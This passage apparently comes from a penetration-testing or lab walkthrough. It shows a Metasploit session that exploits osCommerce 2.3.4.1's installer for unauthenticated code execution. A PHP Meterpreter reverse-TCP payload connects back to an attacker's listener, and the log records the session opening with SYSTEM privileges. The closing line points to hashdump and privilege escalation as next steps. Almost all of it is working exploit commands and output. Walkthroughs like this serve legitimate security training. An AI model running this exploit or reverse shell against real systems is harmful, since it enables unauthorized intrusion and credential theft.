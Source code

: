```ruby
msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > show options

Module options (exploit/multi/http/oscommerce_installer_unauth_code_exec):

   Name     Current Setting    Required  Description
   ----     ---------------    --------  -----------
   Proxies                     no        A proxy chain of format type:host:por
                                         t[,type:host:port][...]
   RHOSTS   target-ip        yes       The target host(s), see https://docs.
                                         metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT    8080               yes       The target port (TCP)
   SSL      false              no        Negotiate SSL/TLS for outgoing connec
                                         tions
   URI      /catalog/install/  yes       The path to the install directory
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  attacking-ip    yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   osCommerce 2.3.4.1


msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set URI /oscommerce-2.3.4/catalog/install
URI => /oscommerce-2.3.4/catalog/install
msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > exploit

[*] Started reverse TCP handler on attacking-ip:4444 
[*] Sending stage (39927 bytes) to target-ip
[*] Meterpreter session 1 opened (attacking-ip:4444 -> target-ip:49524) at 2023-09-21 16:59:23 +0100

meterpreter > 

```

- We now have a meterpreter session on the target machine. From here, we could use built-in tools like `hashdump` to grab user hashes and attempt to gain system privileges by using the `get system` command, but that isn't necessary because we got onto the machine as `nt authority/system`. 
